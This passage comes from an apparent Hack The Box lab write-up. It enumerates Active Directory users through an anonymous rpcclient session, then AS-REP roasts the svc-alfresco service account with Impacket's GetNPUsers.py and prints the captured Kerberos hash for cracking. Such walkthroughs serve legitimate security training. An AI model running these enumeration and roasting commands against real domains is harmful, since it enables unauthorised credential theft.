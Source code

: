 Interesting. An Active Directory forest as the name suggests with one domain HTB? Let's see what we can find with good ol' `rpcclient`.

```
# rpcclient 10.10.10.161 -U%
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Hmm. What have we here? A service account? Service accounts are known to have poor password hygiene and they don't change regularly. :wink:

Let's give it a shot to `GetNPUsers.py`, which attempts to list and get TGTs for users that have the property "Do not require Kerberos preauthentication" set. Seems like something a service account would do.

```
# python GetNPUsers.py -format john -no-pass htb/svc-alfresco
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$svc-alfresco@HTB:0f6fe997e988a2e397f5df307b1373aa$5e00024090668f3ae67aa512ed9531838598a205c86f0e30096eefb998e1f5d077a43d5b89decebe9943d2e2cd2a75f9fac0a06814f75a1f4434c9ad9746fc0235cb545e7a12caf22664ca97eef6b976c607511e6fa5ecb5c9ab65aa42f7672bcc6682571770ddf82b9d2275d01c8cdd326e41e5bc44c5cb3b306bc0bef6701596319b2a85a0ddb58738aae70460488933ceb99b6da8049a6ffd5aeac76c52352df0385f11ce2744b22249922a57929e0ade3aabf174f488e656d8776fd1b2eb27cdc3827e0c5a3e9d01617515047f7f24fcf9a1bcddca112bdae9574a37f89f
```


[1]: https://www.hackthebox.eu/home/machines/profile/212
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/